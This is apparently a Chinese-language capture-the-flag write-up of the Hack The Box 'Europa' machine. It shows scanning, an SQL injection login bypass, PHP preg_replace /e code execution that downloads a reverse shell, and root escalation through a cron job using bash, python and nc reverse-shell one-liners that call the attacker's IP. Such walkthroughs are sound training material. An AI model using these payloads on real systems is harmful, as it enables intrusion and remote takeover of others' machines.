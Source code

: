 ```yaml
---
title: Europa(php rce)
categories:
- training
tags:
- training
---
```

## 引子
一天可以当两天用，可是当十天不行。
不要低估日积月累的作用。

## scan
```
22/tcp  open  ssh      OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6b:55:42:0a:f7:06:8c:67:c0:e2:5c:05:db:09:fb:78 (RSA)
|   256 b1:ea:5e:c4:1c:0a:96:9e:93:db:1d:ad:22:50:74:75 (ECDSA)
|_  256 33:1f:16:8d:c0:24:78:5f:5b:f5:6d:7f:f7:b4:f2:e5 (EdDSA)
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: 400 Bad Request
| ssl-cert: Subject: commonName=europacorp.htb/organizationName=EuropaCorp Ltd./stateOrProvinceName=Attica/countryName=GR
| Subject Alternative Name: DNS:www.europacorp.htb, DNS:admin-portal.europacorp.htb
| Not valid before: 2017-04-19T09:06:22
|_Not valid after:  2027-04-17T09:06:22
|_ssl-date: TLS randomness does not represent time
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

http://10.10.10.22 [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.22], PoweredBy[{], Script[text/javascript], Title[Apache2 Ubuntu Default Page: It works]
```
## web
http://10.10.10.22
### 目录扫描
```
gobuster -u https://admin-portal.europacorp.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e -k
https://admin-portal.europacorp.htb/data (Status: 301)
https://admin-portal.europacorp.htb/js (Status: 301)
https://admin-portal.europacorp.htb/vendor (Status: 301)
https://admin-portal.europacorp.htb/dist (Status: 301)
https://admin-portal.europacorp.htb/logs (Status: 301)
https://admin-portal.europacorp.htb/server-status (Status: 403)
---
gobuster -u https://www.europacorp.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e -k

gobuster -u https://europacorp.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e -k
```
### 查找版本漏洞
searchsploit apache 2

Apache < 2.2.34 / < 2.4.27 - OPTIONS Memory Leak                                                            | exploits/linux/webapps/42745.py
searchsploit -m exploits/linux/webapps/42745.py
python3 42745.py -u https://10.10.10.22/ -a

Optionsbleed 漏洞未发现

### https

ssl/http Apache httpd 2.4.18 ((Ubuntu))
参考资料：http://liaoph.com/openssl-san/

SAN(Subject Alternative Name) 是 SSL 标准 x509 中定义的一个扩展。使用了 SAN 字段的 SSL 证书，可以扩展此证书支持的域名，使得一个证书可以支持多个不同域名的解析。

`sslyze --regular 10.10.10.22`
![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/10-27-09/4.PNG)

？
[以前遇到过](https://whale3070.github.io/training/2017/11/02/%E8%BF%98%E6%98%AFkioptrix-LFI%E4%B8%8E%E6%B3%A8%E5%85%A5/)
将域名和ip绑定，访问网站就会正常显示。而直接通过ip访问，网站不能正常解析。
当时没有深入探究，是什么导致的。

![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/10-27-09/5.PNG)

```
X509v3 Subject Alternative Name:   {'DNS': ['www.europacorp.htb', 'admin-portal.europacorp.htb']}
echo 10.10.10.22 admin-portal.europacorp.htb >> /etc/hosts
echo 10.10.10.22 www.europacorp.htb >> /etc/hosts
echo 10.10.10.22 europacorp.htb >> /etc/hosts

https://admin-portal.europacorp.htb 一个登陆表单
https://www.europacorp.htb apache2默认配置页面
https://europacorp.htb 同上
```
wget https://admin-portal.europacorp.htb --no-check-certificate -O admin-portal.europacorp.htb


### sql注入
![33](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/10-27-09/33.PNG)

burp将数据包copy to file，选择保存为1.txt
`sqlmap -r 1.txt --dbms mysql -p email --force-ssl --dump`

获得数据库内容后，得知了用户名是admin@europacorp.htb

以下列的数据登入后台。
email=admin@europacorp.htb' or '1'='1&password=098098

### 代码执行
看到网页上有个输入点，立刻想到了命令执行漏洞，burp抓包看一下。

![34](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/10-27-09/34.PNG)

```
pattern=/ip_address/&ipaddress=123123&text="openvpn": {

这个代码是页面输入123123的时候，页面post的参数。

如果修改pattern=/ip_address/，为pattern=/vtun0/，可以观察到页面的响应改变了，此处做了一个替换。123123的位置由ip_address的位置改为了vth0的位置。

这里是用正则表达式替换的，而php的函数preg_replace()有个代码执行漏洞。

**preg_replace** 函数 **/e** 模式执行代码的时候会转义特殊字符。
```
参考资料：
- http://www.madirish.net/402
- [深入研究preg_replace与代码执行](https://mochazz.github.io/2018/08/13/%E6%B7%B1%E5%85%A5%E7%A0%94%E7%A9%B6preg_replace%E4%B8%8E%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C/#%E6%A1%88%E4%BE%8B)
- [常见web漏洞-command execution](https://whale3070.github.io/web/2018/11/18/x/)

pattern=/^(.*)/e&ipaddress=system(`wget http://10.10.14.18:1234/php-reverse-shell.php -P /tmp`);&text=

pattern=/^(.*)/e&ipaddress=system(`php -f /tmp/php-reverse-shell.php`);&text=

![35](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/10-27-09/35.PNG)

得到一个权限为www-data的shell

## 提权
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
cd /tmp;wget http://10.10.14.18:80/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh

查看信息搜集结果，
内核版本挺高的，不存在内核漏洞提权
有效的用户有root、john

存在的定时任务crontab
cat /var/www/cronjobs/clearlogs

#!/usr/bin/php
<?php
$file = '/var/www/admin/logs/access.log';
file_put_contents($file, '');
exec('/var/www/cmd/logcleared.sh');
?>

---
ls -al /var/www/cronjobs/clearlogs
-r-xr-xr-x 1 root root 132 May 12  2017 /var/www/cronjobs/clearlogs

ls -al /var/www/cmd/logcleared.sh
ls: cannot access '/var/www/cmd/logcleared.sh': No such file or directory

于是可以通过定时任务执行/var/www/cmd/logcleared.sh，

本地监听8899端口，然后shell执行
touch /var/www/cmd/logcleared.sh

echo 'python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.18",8899));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' > /var/www/cmd/logcleared.sh
失败
echo "bash -i >& /dev/tcp/10.10.14.18/8899 0>&1" > /var/www/cmd/logcleared.sh
失败

echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.18 8899 >/tmp/f" > /var/www/cmd/logcleared.sh;chmod +x /var/www/cmd/logcleared.sh

经过尝试，最后一个payload是最好用的。
```
![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/10-27-09/1.PNG)

## 总结
在sql注入输入admin@europacorp.htb' or '1'='1的时候，页面js脚本总是弹出用户名不是邮箱，这时候该怎么办呢？

这里有一个小技巧：

点击intercept is on，通过burp proxy拦截输入用户名密码里的数据包，然后修改数据包中的内容，修改完成后，点击intercept is off。

这时候数据包就会直接发往服务器，你就可以看到网页已经登陆了。

这是绕过js验证的一个技巧。